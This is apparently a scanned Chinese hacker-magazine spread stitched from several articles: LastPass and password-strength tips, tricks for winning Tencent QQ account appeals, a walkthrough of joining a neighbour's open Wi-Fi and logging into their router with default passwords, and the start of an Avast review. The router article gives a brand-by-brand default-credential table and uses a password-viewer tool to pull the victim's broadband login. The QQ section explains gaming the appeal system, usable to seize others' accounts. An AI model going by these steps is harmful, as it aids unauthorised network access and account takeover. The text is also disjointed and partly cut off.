





LastPass已经安装完成好了，现在就来看看如何使用它吧。我这里使用的是Chrome浏览器，插件已经安装好了。打开浏览器，点击右上角的大星号图标，登录我们的账户。登录成功之后星号图标会变红，提示我们已经登录成功。现在我们随便进入一个网站（如图4），就以黑客X档案的论坛为例。我进入网页之后，在用户名及密码栏中已经变成已输入状态了，即只需要点击登录即可。若是在该网站只有一个账号的话，便可以点击页面上方的“自动登录”按钮。这样我们以后再进入该网站的时候，便会直接登录了。若有多个账户，只需点击“自动填写”，选择所要登录的账户。

我们现在再看下LastPass在注册账号时的运用。在我们注册用户的时候，填好用户名后，便可不必绞尽脑汁去想好记的密码了，或者置自己安全不顾使用相同的密码。点击星号按钮，选择工具一栏，出现（如图5所示）界面。选择“生成安全密码”按钮，便会出现（如图6所示）界面：里面已经准备好了安全密码；如果你觉得生成的密码不安全，可以选择“显示高级选项”。在里面可以修改密码长度及是否有特殊符号一类的。在自己满意密码之后便可点击“接受”按钮。之后LastPass便会自动输入密码，我们填写好其他信息便可以搞定注册了。结合浏览器的表单信息，我们注册网站的时候基本可以在15秒之内搞定，大大地提高了效率。



图4



图5



图6

现在来谈谈如何使我们自己的密码更为强悍。我们一般密码的长度最好保证在12位以上，这样暴力破解出来的几率便小之又小。第二个便是最好将密码中的小写字母改为大写；有人做过研究，同样的一个密码，如果是纯小写的话，很快便能破解出来；但如果更改为大写的话，居然需要比纯数字高10倍多的时间去破解。第三个便是特殊符号的使用，若是将特殊符号插入密码中间，密码的复杂度会有很大的提高。第四个便是依据键位分布来巧妙设置密码，让我们更好地记忆，比如说在小键盘里构造出HX造型，就为741456963753951（横竖横及两个对角）。当然了，纯数字的密码是非常不安全的，我们可以在密码两头插入大小写不同的字母，这样就安全许多了。CSDN里边爆出了许多很有意思的密码，例如ppnn13%dkstFeb.1st（妈妈晕装十三余，豆蔻梢头二月初）。“%”在语言中是求余的意思，Feb便为二月的缩写，1st就不用说了吧。实在强悍，这是多么安全又饱含诗情画意的一个密码啊。

## 申诉QQ的绝招

虽然作为黑客的我们很少QQ被盗，但是我们的朋友肯定都有过丢失QQ号的经历，这时候就需要我们挺身而出了。最好的办法便是申诉了，一旦申诉成功的话，我们便可以修改一切资料，同时绑定的安全工具如安全手机一类的就会自动解绑了。当然申诉还是有一定技巧的，掌握了这些技巧，申诉也不是难事。

我们先看下申诉所需要的资料，如图1所示。真实姓名及详细地址当然填写真实的，最好是填注册时填写的。身份证可填可不填，若注册时填写了就一定要填。另一个QQ若不急着拿回来就没什么填写的必要了。

搜索“趣味万年历”，添加排头的应用并打开，便可以查询到注册时间了，如图2所示。



图1



图2

填写好上面说的信息后就会转入新页面，我们进入邮箱（查收短信）查询验证码后，开始填写进一步信息。历史密码一定要写，这在腾讯申诉系统里面占的权重是挺高的，最好两个或以上。常用QQ地点就不难了，自己选择即可（若不是本人申诉，可查看空间资料一类的）。还可以选填QQ注册的方式和时间，在文章的后面会告诉大家如何查询QQ注册时间。下一步便是邀请好友申诉了，腾讯虽然说是邀请好友，但是好友不一定非要真的是好友。我在帮朋友申诉的时候发现非好友也是可以邀请的，那次申诉资料不是很全但是也是通过了。

接下来的是很重要的。腾讯下有很多业务，例如QQ网吧、QQ秀一类的业务，每个业务都会需要填写资料。这个时候若是你申诉QQ的话便会考量你填写的资料与腾讯旗下各业务所填写资料的重合度，那么我们要做的便是在申诉之前一段时间先修改腾讯各业务里的资料为你申诉时要填写的。再过段时间去申诉，再结合上上面说的，拿回QQ不过是时间问题罢了。有时候，如果申诉不成功的话可以换台电脑试试，避免所使用的IP段在腾讯的黑名单里。

# 无线上网安全之开放无线网络不安全

伴随着电信和联通就宽带反垄断问题达成和解，各大电信运营商纷纷提速，个人用户最高居然达100兆，真是一夜解放啊。再也不用忍受龟速的网络，不过在宽带提速的同时，无线网络是否有升级呢？安全性有提高吗？

在浏览器内输入192.168.0.1（有的路由器可能为192.168.1.1，可网上搜索无线网络名称来得知）并转入页面，提示我们输入密码。由于人们对于无线网络的安全不是很重视，路由器的密码一般均为默认密码。如果叉子们家里的路由器密码还是默认的话，那就得马上更改了。

于是翻箱倒柜找出无线网卡插上电脑，开始搜索无线网络。没想到的是居然搜索到了四个开放信号，而且强度还是不错的。找了个网络连接上去，一并把自己的“猫”关了。“猫”？想到这里，一个邪恶的想法便产生了：我们是如何更改“猫”或路由器里的设置呢？“用浏览器进192.168.0.1就好了啊。”一小菜说道。既然我们已经连接到别人的无线网络，是不是就可以进入别人的路由器设置页面呢？答案是肯定的，废话不多说，来看看实战吧。

但是不同品牌的路由器是有不同的默认密码的，我们要如何识别呢？这一点好办，路由器既然有默认的账号及密码，那当然也有默认的无线网络名称。一般都为品牌名加上型号，我们便可以根据无线网络的名称来甄别是什么品牌的路由器；并采用默认密码来登录。其中最通用的账号及密码便都为admin（文章末已附上各大品牌路由器的默认用户名及密码）。

我现在使用的无线网络名字是MERCURY什么的，上网搜索了下是水星的，貌似市场份额挺大的。先试试万能密码admin，用户名及密码均输入admin后转入如图1所示页面。好样的，不愧为万能密码啊，直接就登录进去了。

这里需要用到一个查看网页密码的软件：bulletsPassView。运行软件如图3所示，若网页（需使用IE浏览器）先于软件打开，可点击图3中红框的地方进行刷新。找到后便会在那显示出来，双击表项便会出现如图4所示的详细信息窗口。



图1



图2



图3



图4

这样我们就获取到了里面最为重要的信息了，当然里面还是有其他的东西的，叉子们快来发掘吧！

（地址为空的便为192.168.1.1）

| 品牌/型号 | 地址 | 用户名 | 密码 |
|---|---|---|---|
| D-Link | （空） | admin | （空） |
| TP-Link | （空） | admin | admin |
| 大唐 | （空） | admin | 1234 |
| 斯威特 | （空） | root | root |
| 斯威特 | （空） | user | user |
| 中兴 | （空） | adsl | adsl831 |
| BENQ | （空） | user | benq1234 |
| 天邑 HASB-100 | （空） | admin | admin / epicrouter |
| ViKing | （空） | adsl | adsl1234 |
| 实达 2110ehr v3.20 / v3.21 / v3.5 | 192.168.10.1 | admin | conexant |
| 实达 2110ehr v4.5 | （空） | root | grouter |
| 实达 2110ehr v4.5 | （空） | admin | starnetadsl |
| 艾玛 | http://192.168.101.1 | admin | admin |
| 华硕 | （空） | adsl | adsl1234 |
| 神州数码 DCAD-6010RA V6 | （空） | ADSL | ADSL1234 |

好的我们现在开始发掘宝藏吧，路由器里面最重要的也就是宽带连接的账号及密码了。在左侧的选项卡中寻找了一会，果然发现了账号及密码（如图2）。不过密码是隐藏的。

## Win8保护战强音——免费杀软也强大

Evan

近来小生换上了微软最新力作Windows 8。虽然微软在系统安全上发力不少，推出了免费安全软件MSE，但杀毒软件还是得有一个的。但是杀毒软件的兼容性一向不是很好的，目前国产的杀毒软件都不能很好地兼容Windows 8，这里小生给大家推荐的便是可以完美兼容Windows 8的强大杀软，而且也是免费的哦。首先给大家看一份排名，如图1。这个排名是国外最新的杀毒软件所占市场份额，我们可以看到AVAST!份额是最大的。今天小生介绍的杀毒软件便是AVAST! 7正式版。大家可以到AVAST!官网（www.avast.com）获取最新版本。

| 软件 | 份额 |
|---|---|
| AVAST! FREE ANTIVIRUS | 11.91% |
| MICROSOFT SECURITY ESSENTIALS | 9.96% |
| AVIRA ANTIVIRUS PERSONAL - FREE ANTIVIRUS | 9.75% |
| AVG ANTIVIRUS FREE EDITION | 6.83% |
| ESET NOD32 ANTIVIRUS | 6.75% |
| NORTON ANTIVIRUS | 5.00% |
